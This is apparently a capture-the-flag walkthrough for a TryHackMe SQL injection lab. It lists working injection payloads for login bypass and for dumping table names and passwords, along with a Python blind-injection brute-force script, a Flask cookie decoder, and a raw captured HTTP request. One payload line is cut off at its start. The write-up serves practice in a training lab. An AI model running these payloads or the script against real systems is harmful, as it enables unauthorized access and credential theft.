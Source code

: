 # SQL Injection Lab

**Room Link:** [https://tryhackme.com/room/sqlilab](https://tryhackme.com/room/sqlilab)



## Introduction to SQL Injection: Part 1

### SQL Injection 1: Input Box Non-String

```
1 or 1=1-- -
```

### **SQL Injection 2: Input Box String**

```
1' or '1'='1'-- -
```

### SQL Injection 3: URL Injection

```
$VICTIM:5000/sesqli3/login?profileID=1' or 1=1-- -&password=a
```

**SQL Injection 4: POST Injection**

```
POST /sesqli4/login HTTP/1.1
Host: 10.10.164.155:5000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: http://10.10.164.155:5000
Connection: close
Referer: http://10.10.164.155:5000/sesqli4/login
Cookie: session=.eJy90jFrYzEMB_Dv4jmDZUu2nPk46NLt5iLJMjyaNu17PUoJ-e7nXI-jQ4dM2SwJhH_--xQ2314PCzx0eZOwP4Vfdz_CHnbBn2Q5hH0Iu_AsTz5PP1d5tuOyXTqLPd5_dmf1Itv2clzf7tdZc4mUiCJgZPw3fD-ufY7QOI8aTUYWsCaGhrWnhuRxVB61Z5JqDVDYgaFkMU-ZBdS9gF62rcexHPxyxwBxNjY5yPoR9oniefcf83vz9WHpfyGfvXQLYC0aidFb0xoVW1UpyJkUnBw9RaCEVIs0kMo5C08rFNds2ebGa4HpG2C-BdBsoEGExuRZXWZydQpkFHVuOXJXm_Mxjbm7zgeY-WKx1HtDALsWmL8B4i2AvQnUwtgGWbFOM0TqQI3ZSKypKs_Pi105F-k8mDRy9QQ4BJpdnSB-AZ7_ABfzCOM.ZO_PVg.gxMIbBhBjlFSHtc1twhp3ImdLj4
Upgrade-Insecure-Requests: 1

profileID=-1%27%20or%201=1--%20-&password=a
```

## Introduction to SQL Injection: Part 2







Shows all the table names

```
',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
```

<figure><img src="../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

Show all fields from the table usertable

```
l FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='
```

<figure><img src="../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

Shows all the fields from the table secret

```
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='
```

<figure><img src="../../.gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

Display all the values from the table secrets

```
',nickName=(SELECT group_concat(id || "," || author|| "," || secret|| ":") from secrets),email='
```

<figure><img src="../../.gitbook/assets/image (158).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Broken Authentication

```
1' or '1'='1'-- -
```

<figure><img src="../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Broken Authentication&#x20;

```
Username: ' OR 1=1-- -
```

<figure><img src="../../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>

#### **decode\_cookie.py**

```
#!/usr/bin/python3
import zlib
import sys
import json
from itsdangerous import base64_decode


def decode(cookie):
    """
    Decode a Flask cookie

    https://www.kirsle.net/wizards/flask-session.cgi
    """
    try:
        compressed = False
        payload = cookie

        if payload.startswith('.'):
            compressed = True
            payload = payload[1:]

        data = payload.split(".")[0]

        data = base64_decode(data)
        if compressed:
            data = zlib.decompress(data)

        return data.decode("utf-8")
    except Exception as e:
        return f"[Decoding error: are you sure this was a Flask session cookie? {e}]"


cookie = sys.argv[1]
data = decode(cookie)
json_data = json.loads(data)
pretty = json.dumps(json_data, sort_keys=True, indent=4, separators=(",", ": "))
print(pretty)

```



<figure><img src="../../.gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

```
python decode_cookie.py .eJyrVkrOSMzJSc1LTzWKLy1OLYrPTFGyMtRBF85LzE1VslJKTMnNzFOqBQAYpRNS.ZPCIPg.GEqyzNXd85i4M0Oqpt9ITOmwTOM
```

<figure><img src="../../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>



```
' UNION SELECT 1,NULL-- -
```

<figure><img src="../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

```
' UNION SELECT 1,2-- - 
```

<figure><img src="../../.gitbook/assets/image (165).png" alt=""><figcaption></figcaption></figure>

Enmerutate passwords, the below only returns the first result which we probably don't want.

```
' UNION SELECT 1, password from users-- -
```

<figure><img src="../../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

This way concats all the passwords

```
' UNION SELECT 1,group_concat(password) FROM users-- -
```

<figure><img src="../../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Broken Authentication 3 (Blind Injection)



#### challenge3-exploit.py

```
#!/usr/bin/python3
import sys
import requests
import string


def send_p(url, query):
    payload = {"username": query, "password": "admin"}
    try:
        r = requests.post(url, data=payload, timeout=3)
    except requests.exceptions.ConnectTimeout:
        print("[!] ConnectionTimeout: Try to adjust the timeout time")
        sys.exit(1)
    return r.text


def main(addr):
    url = f"http://{addr}/challenge3/login"
    flag = ""
    password_len = 38
    # Not the most efficient way of doing it...
    for i in range(1, password_len):
        for c in string.ascii_lowercase + string.ascii_uppercase + string.digits + "{}":
            # Convert char to hex and remove "0x"
            h = hex(ord(c))[2:]
            query = "admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1)," \
                f"{i},1)=CAST(X'{h}' AS TEXT)--"

            resp = send_p(url, query)
            if not "Invalid" in resp:
                flag += c
                print(flag)
    print(f"[+] FLAG: {flag}")


if __name__ == "__main__":
    if len(sys.argv) == 1:
        print(f"Usage: {sys.argv[0]} MACHINE_IP:PORT")
        sys.exit(0)
    main(sys.argv[1])

```



**Kali**

```
python challenge3-exploit.py $KALI:5000
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Vulnerable Notes

Create user

```
Username: '  union select 1,group_concat(password) from users'
Password: blah
```



<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Vulnerable Startup: Change Password

**Signup**

```
Username: admin'-- -
```

## Vulnerable Startup: Book Title

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
') union select 1,group_concat(username),group_concat(password),4 from users-- -
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Book Title 2

```
' union select '-1''union select group_concat(username),group_concat(password),3,4 from users-- -
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>























